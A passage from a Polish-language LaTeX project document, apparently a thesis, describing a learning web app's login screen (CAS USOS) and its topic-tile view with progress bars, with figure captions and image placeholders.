    
\includegraphics[width=1\linewidth]{images/frontend/app/usos.png}
    \caption{Ekran do logowania CAS USOS.}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{images/frontend/app/topics.png}
    \caption{Ekran główny aplikacji po zalogowaniu z górną belką z nazwiskiem zalogowanego użytkownika.}
\end{figure}

\subsubsection{Widok listy tematów}
Widok listy tematów jest domyślnym widokiem zalogowanego użytkownika. System wyświetla \textbf{kafle tematów}, gdzie każdy z nich posiada informację o nazwie, symboliczne przyciski przekierowujące do segmentu teoretycznego (książka) oraz do listy zadań (notatnik i ołówek), a także paski postępu ukończenia zadań przez użytkownika na każdym poziomie trudności. Przyciski podświetlają się po najechaniu myszką.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{images/frontend/app/topics_completeness.png}
    \caption{Ekran główny aplikacji z listą kafli tematów.}
\end{figure}

\begin{figure}[H]
    \centering
